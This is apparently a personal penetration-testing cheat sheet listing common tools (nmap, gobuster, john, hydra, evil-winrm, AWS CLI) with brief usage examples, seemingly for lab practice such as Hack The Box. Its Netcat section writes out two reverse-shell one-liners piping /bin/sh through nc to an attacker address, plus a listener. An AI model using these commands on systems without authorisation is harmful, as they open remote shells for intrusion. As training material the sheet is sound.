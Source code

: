 ```yaml
---
Title: Tools Organization
Description:
---
```


## Content

[***01 - Information Gathering***](#01---information-gathering): [💲Nmap](#nmap) - [💲Netcat (nc)](#netcat-nc)

+ Live Host Identification: 💲ping

[***03 - Web Application Analysis***](#03---web-application-analysis): 📦OWASP ZAP, 📦burpsuite

+ Web Crawlers & Directory Bruteforce: [💲gobuster](#gobuster)

[***02 - Vulnerability Analysis***](#02---vulnerability-analysis):[📦Nessus](#nessus), 📦Open VAS

[***05 - Password Attacks***](#05---password-attacks): [💲John](#john)

+ Online Attacks: 💲hydra

[***09 - Sniffing & Spoofing***](#09---sniffing--spoofing): 💲responder, 💲tcpdump, 📦wireshark

[***10 - Post Exploitation***](#10---post-exploitation): 💲evil-winrm

<!-- 
[***Website Vulnerability Scan***](#website-vulnerability-scan): Acunetix Web Vulnerability Scanner (AWVS)
***Passive***:
[***DNS***](#dns): whois, nslookup, host, dig, fierce, DNSenum, DNSrecon, Sublist3r, dnsdumpster
[***Web Reconnaissance***](#web-reconnaissance): Google Hacking, Google Map, shadon, Recon-ng
[***Git***](#git): Github/Gitlab, scrabble, GitHack
[***Email***](#email): theHarvester
***Active***
[***Network Service***](#network-service): Netdiscover, Netdiscover
[***SNMP***](#snmp): Onesixtyone, SNMPwalk
[***Samba***](#samba): rpcclient, enum4linux
[***Web***](#web): Nikto, DRIB, Dirbuster, WPScan
 -->

[***Storage Service***](#storage-service): [💲AWS-S3](#aws-s3), 💲mysql, 💲redis-cli

[***File & Data***](#filedata): ASCII, 💲base64, 💲[exiftool](#exiftool)

[***Useful Repository***](#useful-repository): 📒[SecLists](#seclists)

## 01 - Information Gathering

### 💲nmap

<https://nmap.org/>

`sudo nmap --top-ports 3000  -F -sS -sC -sV -n -T4 ${ip}`

> -F: Fast mode - Scan fewer ports than the default scan
>
> -sS (TCP SYN scan)
> SYN scan is the default and most popular scan option for good reasons. It can be
> performed quickly, scanning thousands of ports per second on a fast network not
> hampered by restrictive firewalls.
>
> -sC: Performs a script scan using the default set of scripts. It is equivalent to --
> script=default. Some of the scripts in this category are considered intrusive and
> should not be run against a target network without permission.
>
> -sV: Enables version detection, which will detect what versions are running on what port.
>
> -n (No DNS resolution)
>
> -T4 prohibits the dynamic scan delay from exceeding 10 ms for TCP ports

#### 💲NetCat (nc)

Netcat is a versatile utility for working with TCP or UDP data.

``` shell
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 172.18.0.1 1337 > /tmp/f; rm /tmp/f
nc -nlvp 1337

rm /tmp/f; mkfifo /tmp/f; nc <attack IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

+ [Netcat（Linux nc 指令）網路管理者工具實用範例](https://blog.gtwang.org/linux/linux-utility-netcat-examples/)

## 02 - Vulnerability Analysis

### 📦Nessus

+ [How to Get Started with Nessus on Kali Linux | Tenable®](https://www.tenable.com/blog/getting-started-with-nessus-on-kali-linux)

## 03 - Web Application Analysis

### 💲gobuster

directory/file enumeration mode

+ `gobuster dir --url http://${ip}/ --wordlist ../../tools/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -x php,html`

VHOST enumeration mode

+ `gobuster vhost -w ../../tools/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb`

## 05 - Password Attacks

### 💲john

Password cracker.

`john -w=rockyou.txt hash.txt`

## 09 - Sniffing & Spoofing

## 10 - Post Exploitation

---

<!-- 
## Website Vulnerability Scan
## DNS
## Web Reconnaissance
## Git
## Email
## Other
## Network Service
## SNMP
## Samba
## Web
## Reverse Shell
## Dump Traffic
 -->

## Storage Service

### 💲AWS-S3

+ `aws configure`
+ `aws s3 ls`

## File&Data

### ASCII

+ convert ASCII values into ASCII characters: \
  `echo "65 66 67" | awk '{ for(i=1;i<=NF;i++) printf("%c",$i); print "";  }'`

### 💲base64  

Encode or decode file or standard input to/from Base64, to standard output. \
More information: <https://www.gnu.org/software/coreutils/base64>.

+ Encode the contents of a file as base64 and write the result to stdout: \
  `base64 filename`

+ Decode the base64 contents of a file and write the result to stdout: \
  `base64 --decode filename`

+ Encode from stdin: \
  `<command> | base64`

+ Decode from stdin: \
  `<command> | base64 --decode`

### 💲exiftool  

Read and write meta information in files. \
More information: <https://exiftool.org.>.

## Useful Repository

### 📒SecLists

  <https://github.com/danielmiessler/SecLists>

  SecLists is the security tester's companion. It's a collection of multiple types of lists used during security assessments, collected in one place. List types include usernames, passwords, URLs, sensitive data patterns, fuzzing payloads, web shells, and many more.
